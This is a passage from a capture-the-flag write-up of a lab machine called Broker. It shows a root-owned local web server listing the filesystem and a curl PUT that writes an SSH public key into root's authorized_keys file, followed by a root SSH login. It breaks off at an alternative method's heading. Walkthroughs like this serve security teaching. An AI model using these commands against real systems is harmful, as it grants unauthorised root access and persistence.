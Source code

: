     <a href="libx32/">libx32/</a>                                            17-Feb-2023 17:19                   -
    <a href="lost%2Bfound/">lost+found/</a>                                        27-Apr-2023 15:40                   -
    <a href="media/">media/</a>                                             06-Nov-2023 01:18                   -
    <a href="mnt/">mnt/</a>                                               17-Feb-2023 17:19                   -
    <a href="opt/">opt/</a>                                               06-Nov-2023 01:18                   -
    <a href="proc/">proc/</a>                                              08-Nov-2023 17:53                   -
    <a href="root/">root/</a>                                              07-Nov-2023 08:40                   -
    <a href="run/">run/</a>                                               08-Nov-2023 19:24                   -
    <a href="sbin/">sbin/</a>                                              06-Nov-2023 01:10                   -
    <a href="srv/">srv/</a>                                               06-Nov-2023 01:18                   -
    <a href="sys/">sys/</a>                                               08-Nov-2023 17:53                   -
    <a href="tmp/">tmp/</a>                                               08-Nov-2023 20:00                   -
    <a href="usr/">usr/</a>                                               17-Feb-2023 17:19                   -
    <a href="var/">var/</a>                                               05-Nov-2023 01:43                   -
    <a href="test.out">test.out</a>                                           08-Nov-2023 19:22                  14
    </pre><hr></body>
    </html>
    

If I use a PUT request instead, it’ll write what I send to the file:

    
    
    activemq@broker:/dev/shm$ curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing'
    

So this writes my public SSH key to root’s `authorized_keys` file.

Now I can SSH as root to Broker:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.243
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
    ...[snip]...
    root@broker:~#
    

### Load SO [Alternative]

#### Background
